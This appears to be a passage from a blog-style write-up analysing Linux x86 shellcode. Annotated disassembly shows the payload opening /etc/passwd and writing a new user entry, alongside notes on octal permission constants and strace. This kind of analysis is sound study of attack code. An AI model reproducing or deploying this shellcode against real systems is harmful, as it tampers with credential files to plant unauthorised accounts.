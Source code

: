 ```nasm
                            ; 3rd argument of open():
                            ;   mode (mode bits applied when a new file is created):
                            ;     - S_IRUSR
                            ;     - S_IWUSR
                            ;     - S_IRGRP
                            ;     - S_IROTH
0000001B  66BAA401          mov dx,0x1a4
```

I've learning something new while analysing this shellcode: that permissions bits in the Linux kernel's source code are represented with the [octal numeral system](https://en.wikipedia.org/wiki/Octal).

Let's look at an example. If you were to check the values for a constant like `O_CREAT` in the file `/include/uapi/asm-generic/fcntl.h`, you would find something like this:

```cpp
#define O_ACCMODE       00000003
#define O_RDONLY        00000000
#define O_WRONLY        00000001
#define O_RDWR          00000002

#ifndef O_CREAT
#define O_CREAT         00000100        /* not fcntl */
```

Initially I though the number was simply a decimal one. If not, maybe a hexadecimal number. Well, turns out that it's actually an octal one. So you need to convert the number from octal to hex (or decimal when writing your shellcode).

Another piece of advice. When using `strace`, you can pass the arguments `-e raw=open` to view the original, raw values, instead of the constants names.

Back to the shellcode. After the instructions above, the `open` syscall is called.

```nasm
                            ; invoke syscall open()
0000001F  B005              mov al,0x5
00000021  CD80              int 0x80
```

{% sidenote Use the `open()` syscall to open the file `/etc/passwd`, with flags %}

Now that the file is opened, it's time to write the new entry:

```nasm
                            ; 1st argument of write():
                            ;   file descriptor of the file want to write
00000023  89C3              mov ebx,eax
00000025  31D2              xor edx,edx

                            ; 2nd argument of write():
                            ;   pointer to the buffer containing the bytes to write
00000027  8B4E2C            mov ecx,[esi+0x2c]

                            ; 3rd argument of write():
                            ;   number of bytes to write: 31
0000002A  B21F              mov dl,0x1f

                            ; call syscall: write()
0000002C  B004              mov al,0x4
0000002E  CD80              int 0x80

                            ; call syscall: close()
00000030  B006              mov al,0x6
00000032  CD80              int 0x80

                            ; call syscall: exit()
```